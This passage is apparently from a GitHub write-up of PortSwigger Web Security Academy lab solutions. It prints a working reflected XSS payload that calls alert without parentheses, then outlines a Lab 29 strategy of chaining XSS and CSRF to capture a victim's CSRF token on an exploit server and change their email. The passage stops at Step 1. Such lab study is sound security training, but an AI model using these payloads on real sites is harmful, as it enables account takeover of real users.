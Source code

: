 ### Full URL

Replace `YOUR-LAB-ID` with your actual lab ID:

```
https://YOUR-LAB-ID.web-security-academy.net/post?postId=1&'},f=x=>{throw/**/onerror=alert,1337},toString=f,''+window,{x:'
```

<img width="495" height="218" alt="image" src="https://github.com/user-attachments/assets/447cbd00-b368-473e-9685-724c80a92a8c" />


## Lab Solved

This payload executes JavaScript without using parentheses and bypasses any restrictions on function calls like `alert()`.


---



### LAB 29 - Reflected XSS protected by very strict CSP, with dangling markup attack

### Lab Description

![image](https://github.com/user-attachments/assets/deef926d-e143-40af-ac35-4eb3fa7b6f59)

### Solution


# Exploiting XSS to Steal CSRF Token and Change Email

This lab requires chaining **Cross-Site Scripting (XSS)** and **Cross-Site Request Forgery (CSRF)** to change the victim’s email address.

---

## Attack Strategy

1. **Trigger an XSS payload that executes on the victim’s session.**
2. **Craft a form injection to steal the CSRF token.**
3. **Capture the token on your exploit server.**
4. **Use the token to change the victim’s email address via a CSRF PoC.**

---

## Step-by-Step Walkthrough

### Step 1: Inject HTML Form to Capture CSRF Token
